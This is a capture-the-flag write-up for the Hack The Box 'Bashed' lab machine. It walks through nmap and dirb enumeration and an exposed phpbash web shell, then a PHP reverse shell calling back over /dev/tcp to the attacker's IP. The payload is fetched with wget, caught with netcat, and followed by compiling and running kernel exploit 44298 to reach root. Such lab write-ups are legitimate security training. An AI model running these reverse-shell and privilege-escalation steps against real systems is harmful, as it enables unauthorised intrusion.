



---
search:
  exclude: true
---
# Bashed Writeup

## Introduction :

Bashed is an easy Linux box that was released back in December 2017 

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nmap -sC -sV 10.10.10.68
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-21 10:34 CET
      Nmap scan report for 10.10.10.68
      Host is up (0.073s latency).
      Not shown: 999 closed ports
      PORT   STATE SERVICE VERSION
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Arrexels Development Site
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 10.27 seconds
    

## **Part 2 : Getting User Access**

We see that the box has it's 80th port opened. We will run the dirb command to list the directories onto the webserver.
    
    
                λ nihilist [ 10.10.14.48/23 ] [~] → dirb http://10.10.10.68/
    
              -----------------
              DIRB v2.22
              By The Dark Raver
              -----------------
    
              START_TIME: Thu Nov 21 10:44:45 2019
              URL_BASE: http://10.10.10.68/
              WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    
              -----------------
    
              GENERATED WORDS: 4612
    
              ---- Scanning URL: http://10.10.10.68/ ----
              ==> DIRECTORY: http://10.10.10.68/css/
              ==> DIRECTORY: http://10.10.10.68/dev/
              

Dirbuster found the /dev directory , let's browse to it to see what it contains.

We navigate to the phpbash.php page and we are greeted by a shell session that has the user privileges.

And that's how you get the User flag ! Now we will try to spawn a reverse shell to see if we can escalate privileges. 

## **Part 3 : Getting Root Access**

We will first off all upload a reverse shell written in php, in order to attempt to send a reverse shell connection to our machine.
    
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Bashed] → nano rev.php
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Bashed] → cat rev.php
    & /dev/tcp/10.10.14.48/9001 0>&1'");
    ?>
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Bashed] → python2 -m SimpleHTTPServer 80
    Serving HTTP on 0.0.0.0 port 80 ...
    

We will be using the wget command on the phpbash shell in order to download our reverse php shell named rev.php 
    
    
      www-data@bashed
    :/home/arrexel# wget http://10.10.14.48/rev.php
    
    --2019-11-21 02:34:48-- http://10.10.14.48/rev.php
    Connecting to 10.10.14.48:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 75 [application/octet-stream]
    rev.php: Permission denied
    
    Cannot write to 'rev.php' (Success).
    www-data@bashed:/home/arrexel# ls
    
    user.txt
    

we need to download the reverse php shell into a directory where we have the writing rights. 
    
    
    www-data@bashed:/home/arrexel# cd /var/www/html
    
    www-data@bashed:/var/www/html# cd uploads
    
    www-data@bashed:/var/www/html/uploads# ls
    
    index.html
    
    www-data@bashed:/var/www/html/uploads# wget http://10.10.14.48/rev.php
    
    --2019-11-21 02:35:39-- http://10.10.14.48/rev.php
    Connecting to 10.10.14.48:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 75 [application/octet-stream]
    Saving to: 'rev.php'
    
    0K 100% 8.89M=0s
    
    2019-11-21 02:35:39 (8.89 MB/s) - 'rev.php' saved [75/75]
    
    www-data@bashed:/var/www/html/uploads# ls
    
    index.html
    rev.php
    

Let's browse to our reverse shell file and We will be using the nc command with the -lvnp flags in order to catch the incoming reverse shell connection at our 9001 port.

_Terminal 1:_
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Bashed] → nc -lvnp 9001
    

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bashed] → curl -vsk http://10.10.10.68/uploads/rev.php
    *   Trying 10.10.10.68:80...
    * TCP_NODELAY set
    * Connected to 10.10.10.68 (10.10.10.68) port 80 (#0)
    > GET /uploads/rev.php HTTP/1.1
    > Host: 10.10.10.68
    > User-Agent: curl/7.67.0
    > Accept: */*
    >
    
    

_Terminal 1:_
    
    
      λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Bashed] → nc -lvnp 9001
    Connection from 10.10.10.68:44622
    bash: cannot set terminal process group (753): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@bashed:/var/www/html/uploads$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@bashed:/var/www/html/uploads$
    

We have been able to get our reverse shell ! we are logged in as www-data.
    
    
      www-data@bashed:/var/www/html/uploads$ sudo -l
    sudo -l
    Matching Defaults entries for www-data on bashed:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on bashed:
        (scriptmanager : scriptmanager) NOPASSWD: ALL
    

running the sudo command with the -l flag we see that the scriptmanager script can be run as root without any password.
    
    
      www-data@bashed:/var/www/html/uploads$ uname -a
    uname -a
    Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
    

running the uname command with the -a flag we see that the machine is running an outdated kernel version (4.4) we run a quick searchsploit command to try to find out local exploits for us to use. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bashed] → searchsploit kernel 4.4
      --------------------------------------------------------------------------- ----------------------------------------
       Exploit Title                                                             |  Path
                                                                                 | (/usr/share/exploitdb/)
      --------------------------------------------------------------------------- ----------------------------------------
      Linux Kernel 2.4.4 < 2.4.37.4 / 2.6.0 < 2.6.30.4 - 'Sendpage' Local Privil | exploits/linux/local/19933.rb
      Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/ | exploits/linux_x86/local/9542.c
      Linux Kernel 3.10/3.18 /4.4 - Netfilter IPT_SO_SET_REPLACE Memory Corrupti | exploits/linux/dos/39545.txt
      Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege Escalation (Metasp | exploits/linux/local/40759.rb
      Linux Kernel 4.4 (Ubuntu 16.04) - 'snd_timer_user_ccallback()' Kernel Poin | exploits/linux/dos/46529.c
      Linux Kernel 4.4 - 'rtnetlink' Stack Memory Disclosure                     | exploits/linux/local/46006.c
      Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Conditio | exploits/linux_x86-64/local/40871.c
      Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free (PoC)                       | exploits/linux/dos/41457.c
      Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation        | exploits/linux/local/41458.c
      Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter target_offset Out-of- | exploits/linux_x86-64/local/40049.c
      Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' | exploits/linux/local/47170.c
      Linux Kernel 4.4.1 - REFCOUNT Overflow Use-After-Free in Keyrings Local Pr | exploits/linux/local/39277.c
      Linux Kernel 4.4.1 - REFCOUNT Overflow Use-After-Free in Keyrings Local Pr | exploits/linux/local/40003.c
      Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Pr | exploits/linux/local/39772.txt
      Linux Kernel < 3.4.5 (Android 4.2.2/4.4 ARM) - Local Privilege Escalation  | exploits/arm/local/31574.c
    
    **Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation     | exploits/linux/local/44298.c**
    
      Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Loc | exploits/linux/local/44300.c
      Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privileg | exploits/linux/local/43418.c
      Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zor | exploits/linux/local/47169.c
      --------------------------------------------------------------------------- ----------------------------------------
      Shellcodes: No Result
    

Seems like the exploit n°44298 is a good candidate, we first locate it and then copy it to our current directory
    
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bashed] → locate 44298.c
    /home/nihilist/_HTB/Bashed/44298.c
    /usr/share/exploitdb/exploits/linux/local/44298.c
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bashed] → cp /usr/share/exploitdb/exploits/linux/local/44298.c .
    

Now that we have the exploit written in C, we are going to use the gcc command compile the script into an executable binary
    
    
    λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Bashed] → gcc -o 44298 -m64 44298.c
    
    
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Bashed] → ls
    44298  44298.c  progress.graphml  rev.php
    
    λ root [ 10.10.14.48/23 ] [nihilist/_HTB/Bashed] → python2 -m SimpleHTTPServer 80
    Serving HTTP on 0.0.0.0 port 80 ...
    

Back to our reverse shell connection as www-data, we will use the wget command once again to download our executable named 44298.
    
    
      www-data@bashed:/var/www/html/uploads$ wget http://10.10.14.48/44298
    wget http://10.10.14.48/44298
    --2019-11-21 02:54:01--  http://10.10.14.48/44298
    Connecting to 10.10.14.48:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 17872 (17K) [application/octet-stream]
    Saving to: '44298'
    
         0K .......... .......                                    100%  206K=0.08s
    
    2019-11-21 02:54:02 (206 KB/s) - '44298' saved [17872/17872]
    
    

let's execute our binary file and see if we can escalate privileges. 
    
    
      www-data@bashed:/var/www/html/uploads$ ./44298
    ./44298
    bash: ./44298: Permission denied
    

We need to change permissions on our binary in order to execute it using the chmod command.
    
    
    www-data@bashed:/var/www/html/uploads$ chmod 775 44298
    chmod 775 44298
    www-data@bashed:/var/www/html/uploads$ ./44298
    ./44298
    whoami
    root
    id
    uid=0(root) gid=0(root) groups=0(root),33(www-data)
    cat /root/root.txt
    ccXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! Our binary exploit gave us an escalation of privileges, therefore we have been able to print out the root flag.

## **Conclusion**

Here we can see the progress graph :

